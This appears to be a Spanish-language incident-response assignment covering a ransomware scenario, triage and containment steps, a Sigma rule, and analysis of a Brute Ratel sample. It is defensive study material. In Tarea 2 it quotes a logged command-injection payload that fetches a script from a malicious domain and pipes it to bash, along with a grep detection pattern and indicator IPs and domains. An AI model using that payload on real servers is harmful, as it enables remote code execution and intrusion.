

# Introducción a la respuesta a incidentes

## 1. Tarea 1

### 1.1 Errores cometidos en las primeras horas

**Falta de procedimientos y desorganización**: El error principal es no disponer de un plan de respuesta a incidentes por escrito. Eso provoca una actuación descoordinada e inefectiva, porque no se definen roles, prioridades ni pasos a seguir según el tipo de incidente.

**Mala gestión técnica y pérdida de evidencia forense**: Se reiniciaron servidores y se apagaron equipos sin preservar antes la evidencia. Reiniciar no va a descifrar los archivos y, además, puede destruir datos volátiles útiles para el análisis forense. La prioridad inicial debe ser aislar de forma coordinada los sistemas afectados y no apagar equipos.

**Inexistencia de personal especializado**: No contar con un equipo interno de respuesta o, al menos, activar de inmediato al proveedor especializado de ciberseguridad fue un fallo relevante. La contención, el análisis y la coordinación técnica no deberían recaer en personal improvisado en mitad del incidente.

**Gestión negligente de los backups**: Se intentó restaurar una copia de seguridad sin validar antes si estaba íntegra o comprometida. En ransomware, los atacantes suelen intentar cifrar o inutilizar las copias accesibles para impedir la recuperación. Restaurar sin haber contenido primero la intrusión puede reintroducir el problema y, además, eliminar trazas útiles para la investigación.

**Contacto directo con los atacantes sin autorización**: Un administrador contactó con el grupo criminal sin coordinación con dirección, legal ni el equipo de respuesta. Esa actuación no garantiza la recuperación, puede entorpecer la gestión del incidente y complica cualquier decisión posterior sobre notificación, negociación o denuncia.

### 1.2. Clasificación del incidente

**Taxonomía**: Código Dañino (Malware), concretamente ransomware. La clasificación es coherente con un escenario en el que un software malicioso cifra archivos de recursos compartidos y añade una extorsión económica para recuperar el acceso.

**Peligrosidad**: Alta. Aunque al inicio no se conozca todo el alcance, ya hay afectación sobre servicios relevantes y existen indicios de propagación. Si el cifrado se reactiva tras reiniciar sistemas o alcanza nuevas unidades de red, debe asumirse que la amenaza sigue activa y con capacidad de expansión.

**Impacto**: Alto. En una entidad financiera, la indisponibilidad de archivos compartidos afecta de forma directa a la operativa y a la continuidad de negocio. Además del impacto operativo, debe contemplarse el riesgo regulatorio, reputacional y de posible exposición de datos.

### 1.3. Sesión de evaluación preliminar

Como Incident Handler, realizaría las siguientes 5 preguntas clave para tomar el control de la situación:

_¿Disponéis de un inventario actualizado de activos y cuáles de ellos están identificados como críticos para el negocio?_
Necesito saber qué activos son prioritarios para la continuidad operativa, como controladores de dominio, servidores de ficheros, bases de datos o plataformas de banca interna, para ordenar correctamente la contención y la recuperación.

_¿Cuál es el esquema actual de segmentación de red y qué controles perimetrales o internos (como Firewalls, WAF, VPN) están activos?_
Esto permite saber si la red está segmentada o si el atacante puede moverse lateralmente con facilidad. También ayuda a decidir qué bloquear primero y dónde aplicar medidas de aislamiento sin detener por completo el negocio y mitigar el impacto del ataque.

_¿Qué herramientas de monitorización y respuesta tenéis (como EDR, SIEM, Antivirus) desplegadas y dónde se centralizan sus logs?_
Para el análisis forense necesito saber si hay EDR, SIEM, antivirus, firewall, proxy o registros de autenticación disponibles. La ubicación y retención de esos logs es crítica para no perder evidencia y reconstruir la secuencia del ataque. Además ver cual es la configuración y reglas de estos sistemas para mejorarlos en respuesta del incidente.

_¿Cuál es el estado de las copias de seguridad y están aisladas de la red principal?_
Antes de hablar de restauración hay que validar si las copias están íntegras, si son recientes y si están realmente aisladas, offline o protegidas frente al cifrado malicioso.

_¿Qué acciones técnicas exactas se han ejecutado desde el primer aviso hasta este momento?_
Necesito saber qué equipos se han reiniciado, qué servicios se han detenido, si se han restaurado sistemas o si se han tocado credenciales. Eso determina qué evidencia se ha podido perder y qué errores hay que dejar de repetir inmediatamente.

### 1.4. Medidas iniciales de contención

Como no podemos cortar Internet por completo, mi prioridad sería frenar el movimiento lateral, contener la propagación y preservar la evidencia. Estas serían las 6 medidas iniciales:

**Segmentación de emergencia y control de tráfico lateral**: Al tratarse de una red plana, el atacante puede desplazarse con facilidad. Aplicaría reglas temporales en firewalls internos y ACL para limitar RDP, SMB, WinRM y otros protocolos de administración remota entre segmentos que no necesiten comunicarse.

**Extracción prioritaria de logs y evidencias volátiles**: Antes de que se sobrescriban o sean borrados, recogería logs de controladores de dominio, firewalls, proxies, EDR y hosts afectados. En los sistemas que sigan encendidos, priorizaría la captura de memoria y de conexiones activas siempre que sea viable.

**Gestión de identidades y revocación de accesos privilegiados**: Si existen indicios de compromiso en controladores de dominio comprometidos, iniciaría un reseteo escalonado de cuentas privilegiadas, cuentas de servicio y credenciales de alto valor, además de forzar el cierre de sesiones activas y revisar altas recientes de cuentas o privilegios.

**Restricción estricta del tráfico saliente**: Configuraría el firewall perimetral para permitir únicamente los destinos imprescindibles para la operación. El objetivo no es "bloquear IPs desconocidas" de forma genérica, sino reducir la superficie de salida para dificultar la comunicación con C2, la exfiltración y la descarga de nuevas herramientas.

**Validación de backups**: Detendría cualquier restauración hasta confirmar que las copias son limpias, íntegras y utilizables. Restaurar demasiado pronto puede reintroducir el problema o dificultar la investigación.

**Activación del plan de comunicación**: Pondría en marcha el plan de comunicación con dirección, personal técnico, equipo legal y autoridades competentes para que la crisis se gestione con criterios técnicos, regulatorios y reputacionales coherentes.

## 2. Tarea 2

### 2.1 Identificación de la actividad maliciosa

Para localizar el posible vector de ataque en el servidor web, se ha filtrado el archivo access.log buscando patrones típicos de inyección de comandos, descarga de artefactos y encadenamiento de órdenes (`|`, `;`, `&`). Se ha empleado el siguiente comando: `grep -E "wget|curl|chmod|bash|sh|;|%20" access.log`


De esta forma se ha identificado la siguiente línea de log:

```bash
192.168.5.23 - - [12/Jun/2025:03:41:17 +0200] "GET /cgi-bin/status.sh?user=;wget http://maliciousdomain.com/payload.sh -O- | bash HTTP/1.1" 200 452 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
```

La entrada es compatible con la explotación de una vulnerabilidad de inyección de comandos a través del parámetro `user` del script `status.sh`. El atacante usa `;` para cerrar la instrucción esperada e insertar un `wget` que descarga un script y lo redirige directamente a `bash` mediante una tubería. Ese patrón es característico de ejecución remota de comandos sin necesidad de guardar previamente el payload en disco. El código `200 OK` indica que el CGI procesó la petición; por sí solo no demuestra toda la intrusión, pero sí refuerza que el intento de explotación llegó a ejecutarse en el servidor web.

## 2.2 Regla Sigma para detección de accesos fuera de horario

Para detectar accesos potencialmente sospechosos fuera del horario habitual en controladores de dominio, se propone la siguiente regla Sigma:

```yaml
title: Inicio de sesión de red o RDP fuera de horario en controladores de dominio
id: 9b1deb4d-5b4a-4c3b-9b1d-123456789abc
status: experimental
description: |
    Detecta inicios de sesión de tipo red (3) o RDP (10) en controladores de dominio
    realizados fuera del horario de operación estándar (08:00 a 19:00).
author: Henri Daniel Peña Dequero
date: 2026/04/13
logsource:
    product: windows
    service: security
detection:
    selection_logon:
        EventID: 4624
        LogonType:
            - 3
            - 10
    selection_dc:
        ComputerName|contains:
            - DC
    business_hours:
        @timestamp|hour:
            - 8
            - 9
            - 10
            - 11
            - 12
            - 13
            - 14
            - 15
            - 16
            - 17
            - 18
    condition: selection_logon and selection_dc and not business_hours
falsepositives:
    - Tareas de administración o mantenimiento fuera de horario previamente autorizadas
    - Procesos automatizados o herramientas de monitorización
level: high
```

La detección se basa en el evento 4624 de Windows, que registra inicios de sesión exitosos, y filtra los tipos de logon 3 y 10, correspondientes a accesos de red y RDP. Se centra en los controladores de dominio porque son activos especialmente críticos y cualquier acceso no autorizado a ellos puede comprometer al resto de la infraestructura. Además, se define como horario habitual el intervalo entre las 08:00 y las 19:00 para reducir ruido y destacar accesos fuera de esa franja, que resultan menos comunes y, por tanto, más sospechosos. Aun así, la regla puede generar falsos positivos en casos de mantenimiento o administración autorizada fuera de horario.

## 2.3 Análisis de la muestra maliciosa

Se ha realizado la búsqueda en VirusTotal.



**Pregunta 1**: Tras analizar el hash en VirusTotal, se observan comunicaciones con varias IP, entre ellas 185.106.92.54 y 82.115.223.40 por el puerto 8041. También aparece tráfico hacia 64.233.181.94 por el puerto 443 y resoluciones DNS para los dominios bazarunet.com, tiguanin.com y greshunka.com. Los dos primeros indicadores son los que encajan mejor con infraestructura sospechosa vista en la muestra; en cambio, una conexión aislada por 443 a una IP pública no debe etiquetarse automáticamente como C2 sin más contexto.

**Pregunta 2**: Con la información disponible, la muestra puede relacionarse con Badger, el agente asociado a Brute Ratel C4 (BRc4). Brute Ratel es una herramienta comercial de red teaming que, según MITRE ATT&CK, también ha sido utilizada en campañas maliciosas reales. Además, el uso de DLL Side-Loading o de técnicas similares de carga de DLL encaja con comportamientos documentados para este tipo de herramienta, ya que permite ejecutar código malicioso apoyándose en binarios legítimos.

**Pregunta 3**: El uso de Brute Ratel se ha visto en campañas de actores avanzados, incluso grupos APT. Sin embargo, no sería correcto atribuir esta muestra a un actor concreto solo por esa coincidencia, porque se trata de una herramienta reutilizable y no exclusiva de un único grupo. Por tanto, con la evidencia disponible, lo correcto es dejar la atribución abierta.

**Pregunta 4**: Un vector de entrada plausible, y además documentado en campañas que emplean herramientas de este tipo, es el spear phishing mediante correos con adjuntos como ISO, LNK o ZIP. A partir de ahí, la infección puede apoyarse en técnicas de DLL Side-Loading para ejecutar el malware aprovechando binarios legítimos. De cara al análisis forense, revisaría el correo del usuario afectado, las descargas recientes y la ejecución de procesos en rutas temporales para reconstruir el origen del compromiso.
